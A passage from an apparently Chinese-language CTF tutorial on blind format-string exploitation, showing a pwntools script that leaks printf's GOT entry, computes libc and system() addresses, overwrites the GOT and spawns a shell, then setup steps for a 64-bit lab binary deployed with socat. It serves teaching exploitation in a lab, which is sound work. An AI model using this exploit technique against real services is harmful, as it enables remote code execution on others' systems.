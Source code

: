 ```python
payload = "%9$sskye" + p32(printf_got_plt)
p.sendline(payload)
p.recvuntil('right:')
printf_got = u32(p.recv(4))
log.info("printf_got:"+hex(printf_got))

# libcdatabase
libc_base = printf_got - 0x00049670
log.info("libc_base:"+hex(libc_base))
system_addr = libc_base + 0x0003ada0
log.info("system_addr:"+hex(system_addr))

# overwrite
payload = fmtstr_payload(7, {printf_got_plt: system_addr})
p.sendline(payload)
p.sendline('/bin/sh\x00')

p.interactive()
```

## 64 位利用手法

### 实验环境准备

还是使用 32 位的例题源码，编译 64 位程序：

```shell
gcc -z execstack -fno-stack-protector -o leakmemory_64 leakmemory.c
```

用 socat 挂到端口 10001 上部署：

```shell
socat TCP4-LISTEN:10000,fork EXEC:./leakmemory
```

实验环境完成，如果是本地部署的话，等等在 exp 里面写 remote("127.0.0.1",10000) 模拟没有 binary 的远程盲打。

### 确定程序的位数

填充 8 字节，然后再填入 %p  ，回显长度是 8 字节。

![](https://cdn.jsdelivr.net/gh/skyedai910/Picbed/img/20200627113511.png)

### 确定格式化字符串偏移

最后确认偏移为 8 。

![](https://mrskye.cn-gd.ufileos.com/img/2020-06-27-2r7Ig0pKhjZRYcl3.png)

### dump 程序

从程序加载地方开始，或者从 text 段开始可以的。这里不再找 text 段起始位置，直接从程序加载地方开始泄露。两个位数程序脚本通用的，改一下参数即可。
